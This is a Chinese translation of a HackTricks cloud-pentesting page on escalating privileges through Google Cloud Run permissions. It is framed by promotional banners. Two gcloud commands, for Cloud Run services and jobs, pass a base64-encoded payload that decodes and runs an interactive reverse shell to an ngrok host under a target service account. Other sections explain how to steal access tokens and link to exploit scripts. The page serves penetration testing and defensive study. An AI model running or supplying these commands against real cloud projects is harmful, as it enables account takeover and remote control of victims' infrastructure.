 # GCP - Run Privesc

<details>

<summary><strong>从零到英雄学习AWS黑客攻击</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## Cloud Run

有关Cloud Run的更多信息，请查看：

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../../gcp-pentesting/gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`

类似于_cloudfunctions.functions.create_方法，此方法创建一个**新的Cloud Run服务**，当调用时，通过访问其运行服务器的元数据API**返回服务帐户的**访问令牌。将部署Cloud Run服务，并且可以对其执行请求以获取令牌。

您可能还需要权限**`run.services.setIamPolicy`** 或 **`run.routes.invoke`**，如果您不能创建公开可访问的服务，以便任何访问URL的人都可以调用（这可能被组织策略阻止）。

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

此方法使用必须构建和托管的包含的Docker镜像才能正确利用。该镜像设计为告诉Cloud Run在收到HTTP请求时响应服务帐户的访问令牌。

此方法的利用脚本可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py)找到，Docker镜像可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage)找到。

出于某种原因，使用`gcloud run deploy`部署服务时，而不仅仅是创建服务**需要更新权限**。在[**这里查看示例**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh)。

### `run.services.update` , `iam.serviceAccounts.actAs`

如前一个方法，但是更新服务
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

给自己在 Cloud Run 上的先前权限。

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

启动一个带有反向 shell 的作业，以窃取命令中指示的服务账户。您可以在这里找到一个[**漏洞利用**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/m-run.jobs.create.sh)。

### `run.jobs.update`, `run.jobs.run`, `iam.serviceaccounts.actAs`, (`run.jobs.get`)

类似于前一个，可以**更新作业并更新 SA**，**命令**并**执行它**：
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

给自己之前的权限以控制 Cloud Jobs。

## 参考资料

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

其他支持 HackTricks 的方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF 版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
